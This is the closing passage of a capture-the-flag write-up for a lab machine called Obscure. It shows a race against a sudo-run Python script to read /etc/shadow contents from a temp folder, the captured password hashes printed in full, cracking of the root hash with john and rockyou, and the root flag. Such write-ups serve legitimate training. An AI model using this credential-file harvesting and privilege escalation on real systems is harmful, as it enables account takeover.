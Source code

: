     if session['authenticated'] == 1:
        while True:
            command = input(session['user'] + "@Obscure$ ")
            cmd = ['sudo', '-u',  session['user']]
            cmd.extend(command.split(" "))
            proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

            o,e = proc.communicate()
            print('Output: ' + o.decode('ascii'))
            print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')

We reproduce the step locally. The script is copying the password hashes from
`/etc/shadow` into a random temporary file in `/tmp/SSH/` then it does "things"
with the file but we don't care. We just need to get the content of the file at
its creation. We run a infinite loop display the content of every file in the
folder and then exit on a success. At the same time we run the `BetterSSH.py`
script with the `sudo` permission. This allow us to get the `root` password
hash.

    :::text
    robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: root
    Enter password: lol
    Incorrect pass

    robert@obscure:/tmp/SSH$ while true; do cat ./* 2>/dev/null&&exit; done
    root
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
    18226
    0
    99999
    7
    robert
    $6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
    18163
    0
    99999
    7
    logout
    Connection to 10.10.10.168 closed.

We load the hash in `john` with the rockyou dictionary and crack the root password.

    :::text
    john hash -w=~/tools/password_lists/rockyou.txt
    mercedes

Then with our SSH account as robert we just `su` and use the root password to
get the root flag.

    :::text
    robert@obscure:~/BetterSSH$ su
    Password:
    root@obscure:/home/robert/BetterSSH# cat /root/root.txt
    512fd4429f33a113a44d5acde23609e3


# Wrapping up

This box is a lot of python. And this is quit straight forward once you get the
`SuperSecureServer.py` file.

